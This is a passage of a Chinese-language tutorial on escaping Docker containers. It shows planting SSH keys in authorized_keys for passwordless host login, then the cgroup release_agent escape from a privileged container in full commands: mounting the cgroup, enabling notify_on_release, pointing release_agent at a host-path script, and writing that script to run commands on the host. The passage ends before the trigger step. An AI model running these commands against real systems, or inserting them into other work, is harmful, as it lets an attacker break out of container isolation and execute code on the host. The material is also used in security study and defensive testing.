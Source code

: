   * 生成本机的ssh私钥和公钥，命令：ssh-keygen -t rsa

  * 把本机的公钥复制到容器内的/root/.ssh/authorized_keys里，可以实现宿主机的免密登陆。

![](https://gitee.com/fuli009/images/raw/master/public/20210915101900.png)

将公钥复制至authorized_keys中

![](https://gitee.com/fuli009/images/raw/master/public/20210915101901.png)

容器内直接使用私钥登陆宿主机，如图登陆成功

![](https://gitee.com/fuli009/images/raw/master/public/20210915101902.png)

  

这两种方法简单粗暴，但是极容易被检测到，从而暴露。

#### 方式三：挂载cgroup逃逸

首先启动一个容器

    
    
    docker run --rm -it --privileged ubuntu bash

在容器里执行命令,将cgroup直接以 cgroup类型挂载到容器内，挂载选项为
rdma（远程直接内存访问）并在容器内创建一个子cgroup目录（cgroup_2）,目的是为了创建release_agent文件且触发release_agent执行的cgroup。

    
    
    mkdir /tmp/cgroup  
    mount -t cgroup -o rdma cgroup /tmp/cgroup   
    mkdir /tmp/cgroup/cgroup_2

激活子cgroup的notify_on_release，使得在子cgroup退出时能够执行其父cgroup中的release_agent,当将
notify_on_release被设置为1时，在子cgroup被移除时，内核将会运行顶层cgroup下的release_agent文件中指定的命令。

    
    
    echo 1 > /tmp/cgroup/cgroup_2/notify_on_release

通过读取/etc/mtab获取uppdir= 后面跟随的路径（宿主机访问容器的路径）,并将其并写入
release_agent（如下图所示），宿主机可通过该路径访问容器根目录，cgroup最后一个程序退出时执行/cmd的脚本。

    
    
    host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`  
    echo "$host_path/cmd" > /tmp/cgroup/release_agent

![](https://gitee.com/fuli009/images/raw/master/public/20210915101904.png)

接下来就是构造cmd脚本，并将结果输出到容器内output下

    
    
    echo '#!/bin/sh' > /cmd  
    echo "ps ef > $host_path/output" >> /cmd   
    chmod a+x /cmd

![]()

通过子cgroup创建一个可以立即结束的进程，实施攻击,如图，成功获得主机ps结果
